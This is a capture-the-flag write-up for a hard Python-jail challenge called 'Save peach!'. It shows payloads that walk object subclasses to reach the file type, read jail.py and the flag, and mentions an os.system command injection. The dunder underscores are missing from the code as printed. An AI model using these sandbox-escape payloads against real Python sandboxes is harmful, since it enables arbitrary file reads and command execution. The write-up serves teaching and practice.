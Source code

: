 # EZ CTF

## Pwn

### Save peach!

**Difficulty:** Hard

**Statement:** Bowser has kidnapped Peach! Help her break out the python is near! 

***

Once connected to the challenge, I find myself on a python shell.

I start by displaying the contents of the globals: `print(globals())`

```py
{ 'builtins': <module 'builtin' (built-in)>, 'file': './jail.py', 'package': None, 'name': 'main', 'main': <function main at 0x7f0435b92758>, 'doc': None}
```

Then, I display the subclasses:

```py
<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>
```

I notice that the class `<type 'file'>` is present.

So I will adjust my python payload to use this subclass: 

```py
print(().class.base.subclasses()[40])
```

The value `[40]` corresponds to the subclass file.

So I decide to read the content of the file **jail.py** :

```py
print(().class.base.subclasses()[40]('jail.py').read())
```

```py
def main():
    text=raw_input(">>> ")
    for keyword in ['eval', 'exec', 'import']:
        if keyword in text:
            print("Bowser no likey likey!")
            return;
        else:
            exec(text)
            main()
            return;

if name == "main":
    main()
```

The python script doesn't give me any information about the file to retrieve, so I try to read the content of the **flag.txt** file:

```py
print(().class.base.subclasses()[40]('flag.txt').read())
```

I get the following value: `EZ-CTF{P34CH_H4S_B33N_S4V3D}`

Flag: EZ-CTF{P34CH_H4S_B33N_S4V3D}

For the anecdote, a simple `import os;os.system('cmd');` was enough to inject commands !
